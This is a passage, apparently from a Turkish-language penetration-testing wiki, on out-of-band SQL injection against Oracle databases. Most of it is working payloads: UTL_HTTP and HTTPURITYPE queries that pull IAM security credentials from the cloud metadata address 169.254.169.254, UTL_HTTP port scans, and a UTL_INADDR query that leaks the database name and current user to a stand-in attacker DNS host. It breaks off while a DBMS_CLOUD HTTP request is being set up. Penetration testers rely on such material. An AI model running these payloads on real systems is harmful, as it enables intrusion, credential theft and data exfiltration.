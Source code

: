 Belki de her Out of Band Oracle SQL Injection eğitiminde en yaygın ve en çok belgelenmiş teknik [`UTL_HTTP` paketi](https://docs.oracle.com/database/121/ARPLS/u_http.htm#ARPLS070) dir. Bu paket, belgelerde şu şekilde tanımlanmıştır - `UTL_HTTP paketi, SQL ve PL/SQL'den Hypertext Transfer Protocol (HTTP) çağrıları yapar. HTTP üzerinden İnternetteki verilere erişmek için kullanılabilir.`
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
Ayrıca, bunu şu tür sorgularla bazı temel port taramaları gerçekleştirmek için de kullanabilirsiniz.
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
`ORA-12541: TNS:no listener` veya `TNS:operation timed out` hatası, TCP portunun kapalı olduğunun bir işaretiyken, `ORA-29263: HTTP protocol error` veya veri, portun açık olduğunun bir işareti.

Geçmişte çeşitli başarılarla kullandığım başka bir paket, bir URL ile etkileşimde bulunmanıza ve HTTP protokolünü desteklemenize olanak tanıyan [`HTTPURITYPE` Oracle soyut türünün `GETCLOB()` yöntemi](https://docs.oracle.com/database/121/ARPLS/t_dburi.htm#ARPLS71705)'dir. `GETCLOB()` yöntemi, bir URL'den GET yanıtını [CLOB veri türü olarak](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html) almak için kullanılır.
```
SELECT HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() FROM dual;
```
---

## Ek Paketler ve Teknikler (Oracle 19c → 23c)

### UTL_INADDR – DNS tabanlı dışa aktarma ve host keşfi

`UTL_INADDR`, veritabanı sunucusundan dışa doğru bir DNS sorgusu tetikleyen basit ad çözümleme yardımcılarını açığa çıkarır. Sadece bir alan adı gerektiğinden (port/ACL gerekmez) diğer ağ çağrıları engellendiğinde kör dışa aktarma için güvenilir bir ilkelidir.
```sql
-- Leak the DB name and current user via a DNS query handled by Burp Collaborator
SELECT UTL_INADDR.get_host_address(
(SELECT name FROM v$database)||'.'||(SELECT user FROM dual)||
'.attacker.oob.server') FROM dual;
```
`get_host_address()` çözümlenen IP'yi döndürür (veya çözümleme başarısız olursa `ORA-29257` hatası verir). Saldırgan, kodun çalıştığını doğrulamak için kontrol edilen alandaki gelen DNS isteğini izlemek zorundadır.

### DBMS_CLOUD.SEND_REQUEST – Otonom/23c üzerinde tam HTTP istemcisi

Son zamanlarda bulut merkezli sürümler (Otonom Veritabanı, 21c/23c, 23ai) `DBMS_CLOUD` ile birlikte gelir. `SEND_REQUEST` fonksiyonu, özel fiiller, başlıklar, TLS ve büyük gövdeleri destekleyen genel amaçlı bir HTTP istemcisi olarak işlev görür ve bu da onu klasik `UTL_HTTP`'den çok daha güçlü hale getirir.
```sql
-- Assuming the current user has CREATE CREDENTIAL and network ACL privileges
BEGIN
-- empty credential when no auth is required
DBMS_CLOUD.create_credential(
credential_name => 'NOAUTH',
username        => 'ignored',
password        => 'ignored');
END;
/

DECLARE
resp  DBMS_CLOUD_TYPES.resp;
```